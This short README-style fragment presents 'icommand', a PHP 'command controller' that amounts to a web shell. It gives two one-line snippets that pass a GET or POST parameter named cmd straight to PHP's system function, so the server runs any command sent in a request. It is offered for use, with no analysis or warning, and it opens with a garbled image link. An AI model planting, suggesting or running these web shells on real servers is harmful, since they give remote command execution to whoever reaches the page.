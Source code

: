 ### icommand - command controller for PHP system function
- - -
<p>icommand works for **POST** and **GET** requests:   
	<?php system($_GET['cmd']); ?>
	<?php system($_POST['cmd']); ?>

